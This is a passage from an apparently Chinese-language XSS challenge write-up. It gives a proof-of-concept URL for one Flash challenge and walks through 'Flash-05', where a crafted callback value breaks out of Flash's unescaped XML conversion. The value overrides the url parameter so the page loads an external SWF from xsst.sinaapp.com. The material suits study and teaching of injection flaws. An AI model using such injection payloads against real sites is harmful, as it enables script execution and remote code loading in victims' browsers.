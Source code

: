 ```
```

把上面两个服务运行起来后，就有了 POC：

```
http://sandbox.host.smartgslb.com/flash_4/XSSC4.swf?hostName=test.com

```

访问上面 POC，点击`用户登陆`即可。

14. Flash-05
------------

这题过关的思路很清晰，就是通过 addChild 加载一个外部的 Flash 文件，但是如果加载呢，有难度。

html 页面传入两个参数 url 和 callback，url 就是传入到 Flash 中用 addChild 去加载，但是看了下 html 中对 url 的检测和过滤代码，几乎无望。希望只能够寄托到 callback 上。

仔细理了一下整个过程，url 和 callback 这两个参数组装成 JS 中的 data 对象，callback 可控的是对象的一个键值，那思路就应该是用 callback 去覆盖掉前面的 url，达到目的。如何覆盖呢，又陷入困境。

通过 IE 的 JS 调试器，一步一步的跟踪，看下数据的整个处理流程，发现了亮点。data 是一个对象，进入到 Flash 中是要转换成 XML 的，转换的主要函数为：

```
function __flash__objectToXML(obj) {
        var s = "<object>";
        for (var prop in obj) {
                s += "<property id=\"" + prop + "\">" + __flash__toXML(obj[prop]) + "</property>";
        }
        return s+"</object>";
}

```

看到两点了么，通过遍历对象，然后把键和值生成一个 XML 值，在函数中是不对对象的健做任何处理的，正常页面中的 data 为：

```
data={"url":".\/o.png","pkav":"pkav"};

```

经过处理后的 XML 值为：

```
<object><property id="url"><string>./o.png</string></property><property id="pkav"><string>pkav</string></property></object>

```

我们把 callback 修改为：

```
url"><string>http://xsst.sinaapp.com/Xss.swf</string></property><property id="x

```

data 就变成了：

```
var data={"url":".\/o.png","url\"><string>http:\/\/xsst.sinaapp.com\/Xss.swf<\/string><\/property><property id=\"x":"pkav"};

```
